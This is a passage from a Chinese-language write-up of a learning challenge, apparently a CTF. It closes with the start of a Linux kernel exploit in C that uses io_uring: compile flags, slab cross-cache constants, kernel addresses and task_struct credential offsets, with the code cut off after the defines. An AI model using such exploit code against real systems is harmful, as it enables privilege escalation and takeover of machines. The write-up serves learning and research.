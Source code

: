 ## 结论


这对我来说非常有趣，也让我学到了很多东西。我认为这类学习挑战很棒，而且风险较低。我非常感谢前面提到的每个人，还有 [@chompie1337](https://twitter.com/chompie1337)，他在我覆盖了我的密码后，听着我因为无法读取标志而抓狂。漏洞利用的全文贴在下面，如果你在理解上有任何问题，请告诉我，谢谢。

```
// Compile
// gcc sploit.c -o sploit -l:liburing.a -static -Wall

#define _GNU_SOURCE
#include <sched.h>
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <stdarg.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/resource.h>
#include <sys/msg.h>
#include <sys/timerfd.h>
#include <sys/mman.h>
#include <sys/prctl.h>

#include "liburing.h"

// /sys/kernel/slab/filp/objs_per_slab
#define OBJS_PER_SLAB 16UL
// /sys/kernel/slab/filp/cpu_partial
#define CPU_PARTIAL 52UL
// Multiplier for cross-cache arithmetic
#define OVERFLOW_FACTOR 2UL
// Largest number of objects we could allocate per Cross-cache step
#define CROSS_CACHE_MAX 8192UL
// Fixed mapping in cpu_entry_area whose contents is NULL
#define NULL_MEM 0xfffffe0000002000UL
// Reading side of pipe
#define PIPE_READ 0
// Writing side of pipe
#define PIPE_WRITE 1
// error_entry inside cpu_entry_area pointer
#define ERROR_ENTRY_ADDR 0xfffffe0000002f48UL
// Offset from `error_entry` pointer to kernel base
#define EE_OFF 0xe0124dUL
// Kernel text signature
#define KERNEL_SIGNATURE 0x4801803f51258d48UL
// Offset from kernel base to init_task
#define INIT_OFF 0x18149c0UL
// Offset from task to task->comm
#define COMM_OFF 0x738UL
// Offset from task to task->real_cred
#define REAL_CRED_OFF 0x720UL
// Offset from task to task->cred
#define CRED_OFF 0x728UL
// Offset from task to task->nsproxy
#define NSPROXY_OFF 0x780UL
// Offset from task to task->files
#define FILES_OFF 0x770UL
// Offset from task->files to &task->files->fdt
#define FDT_OFF 0x20UL
// Offset from &task->files->fdt to &task->files->fdt->fd
#define FD_ARRAY_OFF 0x8UL
```